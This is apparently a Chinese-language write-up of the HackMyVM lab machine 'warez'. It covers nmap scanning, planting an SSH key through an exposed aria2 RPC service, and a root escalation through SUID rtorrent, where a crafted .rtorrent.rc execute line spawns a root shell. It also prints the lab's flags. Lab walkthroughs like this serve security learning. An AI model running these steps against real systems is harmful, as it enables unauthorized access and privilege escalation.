




# 信息搜集
主机发现

```clike
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-25 22:42 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0015s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.000069s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.14 (192.168.21.14)
Host is up (0.00020s latency).
MAC Address: 08:00:27:80:57:80 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.01 seconds
```
端口扫描

```clike
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-25 22:43 EDT
Nmap scan report for 192.168.21.14 (192.168.21.14)
Host is up (0.000091s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6800/tcp open  unknown
MAC Address: 08:00:27:80:57:80 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.00 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80,6800 192.168.21.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-25 22:43 EDT
Nmap scan report for 192.168.21.14 (192.168.21.14)
Host is up (0.00025s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp   open  http    nginx 1.18.0
6800/tcp open  http    aria2 downloader JSON-RPC
MAC Address: 08:00:27:80:57:80 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds
```
# 漏洞利用
看一下80端口



泄露了一个用户
```clike
/home/carolina
```
生成一个密钥

```clike
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh-keygen   
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 
Enter passphrase for "/home/kali/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_ed25519
Your public key has been saved in /home/kali/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:rLFvj0cJrLOjy4UO1Xfn0vYsK+1gTV2v6m0lA1qQvM0 kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|         . .     |
|          +      |
|       .   =    .|
|     . .o . E. ..|
|    . o.S..+o.. .|
|   . .o= .+*  o..|
|  . . +o .+.= .+ |
|   + .o..oo+o=.  |
|    =o ooo.+=++  |
+----[SHA256]-----+
```
把id_ed25519.pub改名authorized_keys下载到.ssh下





ssh链接一下

```clike
┌──(root㉿kali)-[~/.ssh]
└─# ssh carolina@192.168.21.14 -i id_ed25519
Linux warez 5.10.0-8-amd64 #1 SMP Debian 5.10.46-4 (2021-08-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 31 02:43:08 2021 from 192.168.1.51
carolina@warez:~$
```

# 提权
user.txt

```clike
carolina@warez:~$ ls -la
total 40
drwxr-xr-x 4 carolina carolina 4096 Aug 31  2021 .
drwxr-xr-x 3 root     root     4096 Aug 30  2021 ..
-rw-r--r-- 1 carolina carolina  220 Aug 30  2021 .bash_logout
-rw-r--r-- 1 carolina carolina 3526 Aug 30  2021 .bashrc
drwxr-xr-x 3 carolina carolina 4096 Aug 31  2021 .local
-rw-r--r-- 1 carolina carolina  807 Aug 30  2021 .profile
-rw-r--r-- 1 carolina carolina   66 Aug 31  2021 .selected_editor
drwx------ 2 carolina carolina 4096 Mar 25 23:06 .ssh
-rw------- 1 carolina carolina   19 Aug 31  2021 user.txt
-rw------- 1 carolina carolina   51 Aug 31  2021 .Xauthority
carolina@warez:~$ cat user.txt
HMVKeepdownloading
```
看一下有没有能利用的

```clike
carolina@warez:~$ sudo -l
-bash: sudo: command not found
carolina@warez:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/chsh
/usr/bin/rtorrent
/usr/bin/su
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
carolina@warez:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
```



提权

```clike
carolina@warez:/tmp$ echo "execute = /bin/sh,-p,-c,\"/bin/sh -p <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc
carolina@warez:/tmp$ id
uid=1000(carolina) gid=1000(carolina) groups=1000(carolina),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
carolina@warez:~$ rtorrent
# id
uid=1000(carolina) gid=1000(carolina) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(carolina)
```
root.txt

```clike
# cd /root
# cat root.txt
HMVKeepsharing
```